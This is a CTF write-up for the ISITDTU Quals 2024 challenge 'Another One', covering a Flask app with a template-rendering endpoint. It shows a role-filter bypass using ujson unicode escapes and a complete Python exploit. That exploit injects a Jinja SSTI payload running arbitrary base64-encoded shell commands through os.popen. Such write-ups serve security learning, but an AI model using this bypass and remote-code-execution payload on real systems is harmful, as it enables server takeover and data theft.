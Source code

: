 ```yaml
---
title: "Writeups For ISITDTU Quals 2024"
date: 2024-08-27 14:56 +0700
categories: [Cybersecurity, CTF]
tags: [writeup]
media_subpath: /assets/do-you-think-you-delicious
render_with_liquid: false
---
```


Another One
For this challenge, at first glance, I'm looking at the
```python
@app.route('/render', methods=['POST'])
def dynamic_template():
    token = request.cookies.get('jwt_token')
    if token:
        try:
            decoded = jwt.decode(token, app.config['SECRET_KEY'], algorithms=['HS256'])
            role = decoded.get('role')

            if role != "admin":
                return jsonify(message="Admin only"), 403

            data = request.get_json()
            template = data.get("template")
            rendered_template = render_template_string(template)
            
            return jsonify(message="Done")

        except jwt.ExpiredSignatureError:
            return jsonify(message="Token has expired."), 401
        except jwt.InvalidTokenError:
            return jsonify(message="Invalid JWT."), 401
        except Exception as e:
            return jsonify(message=str(e)), 500
    else:
        return jsonify(message="Where is your token?"), 401
```
This code makes me think of a possible SSTI (Server-Side Template Injection) vulnerability. However, to access it, we need to have the "Admin" role. So, we’ll need a way to obtain or bypass this requirement to proceed.

Looking more deeply in code. and i have found this:
```python
    if "admin" in json_data:
        return jsonify(message="Blocked!")
    data = ujson.loads(json_data)
```
As we looking through the ujson package, we saw that
```python
>>> ujson.dumps("åäö")
'"\\u00e5\\u00e4\\u00f6"'
```
We though that if it can Unicode encode character when dump, can it decode unicode character when loads?
```python
>>> ujson.loads('{"role":"\\u0061dmin"}')
{'role': 'admin'}
```
Well it could.
Therefore the idea is to register a user with role,
```json
{"username":"aaaaaa","password":"aaaaaa","role":"\\u0061dmin"}
```
So the json_data will not contain "admin" but the data does.
We have done the bypass admin role step, so the final thing we need to do is find a way to ssti and get a flag.

```python
#!/usr/bin/env python3
import requests, sys, base64

BASE_URL = sys.argv[1].rstrip("/")
wp = lambda x: f"{BASE_URL}{x}"
_s = requests.session()
from pwn import *

u, p = randoms(10), randoms(10)

print(
    _s.post(
        wp("/register"),
        headers={"Content-Type": "application/json"},
        data=f'{{"username":"{u}", "password":"{p}", "role":"\\u0061dmin"}}',
    ).text
)

token = _s.post(wp("/login"), json={"username": u, "password": p}).json()["message"]

_s.cookies["jwt_token"] = token

while True:
    cmd = input(">")

    cmd = base64.b64encode(cmd.encode()).decode()

    print(
        _s.post(
            wp("/render"),
            json={
                "template": "{{ cycler.__init__.__globals__.os.popen('echo "
                + cmd
                + " | base64 -d | sh').read()}}"
            },
        ).text
    )
    print(_s.get(wp("/static/test")).text)
```
send `mkdir static`, `ls > static/test` then `cat <filename> > static/test`